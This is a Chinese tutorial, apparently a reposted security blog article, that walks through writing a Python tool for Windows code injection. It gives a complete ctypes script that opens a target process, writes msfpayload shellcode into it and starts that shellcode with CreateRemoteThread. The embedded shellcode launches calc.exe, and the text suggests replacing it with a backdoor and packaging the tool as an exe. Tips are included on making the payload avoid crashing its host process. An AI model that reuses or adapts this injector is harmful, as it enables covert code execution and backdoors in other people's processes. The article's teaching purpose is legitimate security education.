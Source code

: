 # Python编写shellcode注入程序

0x00 背景
=====

本文为《小学生科普系列》的番外篇，本系列面向小学生，纯科普，大牛莫喷~

教程中所有内容仅供学习研究，请勿用于非法用途，否则....我也帮不了你啊...

说起注入，大家第一印象可能还习惯性的停留在sql注入，脚本注入（XSS）等。今天light同(jiao)学(shou)带大家从web端回到操作系统，一起探讨Windows下的经典注入——内存注入，使用python编写一个简单的代码注入程序。

内存注入常见的方法有dll注入和代码注入。Dll注入通俗地讲就是把我们自己的dll注入到目标进程的地址空间内，“寄生”在目标进程里执行。Dll注入需要另外一个“推进器”程序将我们的“寄生虫”dll“注”进目标进程中。

代码注入和dll注入的思路一致，只是“寄生虫”代码与“推进器”代码在同一个程序里面。

Dll文件:windows动态链接库。在Windows中，许多应用程序并不是一个完整的可执行文件，它们被分割成一些相对独立的动态链接库，即DLL文件，放置于系统中。当我们执行某一个程序时，相应的DLL文件就会被调用。

这次我们的实验选取“代码注入”这一课题。废话不多说，开始动手！

0x01 准备工作
=====

写python的小程序，light同学推荐性感的Sublime text2 +JEDI（python自动补全插件）。

首先安装sublime text2的“插件管理”插件package control：

打开sublime后，组合键“ctrl+~”调出控制台，将以下代码粘贴进命令行中并回车：

```
import urllib2,os;pf='Package Control.sublime-package';ipp=sublime.installed_packages_path();os.makedirs(ipp) if not os.path.exists(ipp) else None;open(os.path.join(ipp,pf),'wb').write(urllib2.urlopen('http://sublime.wbond.net/'+pf.replace(' ','%20')).read())

```

安装完毕后重启sublime text2，输入Ctrl + Shift + P 然后输入Install Package

![enter image description here](http://drops.javaweb.org/uploads/images/880b6fc8e846f242d92e3ebfd88f86b60780f36f.jpg)

然后输入“jedi”，回车安装。

![enter image description here](http://drops.javaweb.org/uploads/images/39282efb90f84555868946858f8d080608ded900.jpg)

磨刀不误砍柴工，装好插件，我们开始正式撸代码。

0x02 烹饪开始
=====

原料：win7、python27、sublime text2、msfpayload

必备技能：windows api 基础、python基础、metasploit基础（这个还不会的赶快去这里补习！http://zone.wooyun.org/content/17377）

这次的注入代码主要借助了python的ctypes库，这个库使得python可以直接调用windows API，非常方便。“为什么不用c或者c++？”，因为我手头边只有一本《gray hat python》。

```
#-*- coding:utf-8 -*-
#导入sys库以及ctypes库
import sys
from ctypes import *

PAGE_EXECUTE_READWRITE  =  0x00000040
PROCESS_ALL_ACCESS  =  ( 0x000F0000 | 0x00100000 | 0xFFF )
VIRTUAL_MEM  =  ( 0x1000 | 0x2000 )

kernel32  =  windll.kernel32
pid  =  int(sys.argv[1])

if not sys.argv[1]:
    print "Code Injector: ./code_injector.py <PID to inject>"
    sys.exit(0)

# shellcode使用msfpayload生成的，我这里是一个计算器，当然你可以直接生成一个后门程# 序。生成代码：msfpayload  windows/exec  CMD = calc.exe  EXITFUNC=thread  C　
shellcode = ("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x6a\x01\x8d\x85\xb9\x00"
"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d"
"\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63"
"\x2e\x65\x78\x65\x00")

code_size = len(shellcode)

# 获取我们要注入的进程句柄
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) )

if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid
    sys.exit(0)

# 为我们的shellcode申请内存
arg_address = kernel32.VirtualAllocEx( h_process, 0, code_size, VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)

# 在内存中写入shellcode
written = c_int(0)
kernel32.WriteProcessMemory(h_process, arg_address, shellcode, code_size, byref(written))

# 创建远程线程，指定入口为我们的shellcode头部
thread_id = c_ulong(0)
if not kernel32.CreateRemoteThread(h_process,None,0,arg_address,None,0,byref(thread_id)):
    print "[*] Failed to inject shellcode. Exiting."
sys.exit(0)

print "[*] Remote thread successfully created with a thread ID of: 0x%08x" % thread_id.value

```

句柄：句柄与普通指针的区别在于，指针包含的是引用对象的内存地址，而句柄则是由系统所管理的引用标识，该标识可以被系统重新定位到一个内存地址上。这种间接访问对象的模式增强了系统对引用对象的控制。

可以看到，之所以能进行内存注入，主要归功于windows开放的一个关键api：CreateRemoteThread。这个函数允许我们创建一个在其它进程地址空间中运行的线程(也称：创建远程线程)。

而整个注入过程可以划分为三个步骤：获取目标进程句柄，把shellcode写入内存，创建远程线程。这也是内存注入的基本原理和机制。

在使用msfpayload生成shellcode时，有两个坑需要大家注意。

坑一： Msfpayload生成shellcode时，不能使用msfencode，有些资料告诉我们生成shellcode时要在后面加上 msfencode -b ‘\x00’ 来避免空字，但是msfencode一旦使用，默认就会使用 x86/shikata_ga_nai 等编码器对shellcode编码一次。这里light同学推荐大家用 msfpayload xxx C的方式来生成纯净的shellcode。

坑二：

msfpayload windows/exec CMD = calc.exe C　

直接生成的shellcode执行结果是宿主100%崩溃，简直就是进程杀手。我在测试过程中，把用来测试的百度云管家崩的天昏地暗。这个坑花了好久才跳出来。

后来号基友用ollydbg调试发现shellcode退出时直接exit process，把整个进程都结束了。

![enter image description here](http://drops.javaweb.org/uploads/images/7980f9215e5aea73846709d5d523fa5e04ed41f4.jpg)

在基友热心帮助下，再参考msfpayload官方文档后顿悟，果断修改EXITFUNC的值为thread（默认为process）：

![enter image description here](http://drops.javaweb.org/uploads/images/729dcda4b394cef05bb1e8b88b6b2afa97ac5c17.jpg)

测试成功！

![enter image description here](http://drops.javaweb.org/uploads/images/dcaab6e3db9508a19ba27f254b9c3cc68ac49b19.jpg)

最后，我们可以把这个python脚本用py2exe打包成exe可执行文件。有兴趣的话还可以加上UI，做成一个可以定制不同注入类型（dll或代码注入）、注入代码（反向后门或恶作剧程序）的程序。

任何问题或者好的建议请骚扰：root@1ight.co

参考文档：

《gray hat python》

http://www.offensive-security.com/metasploit-unleashed/Msfpayload

http://www.google.com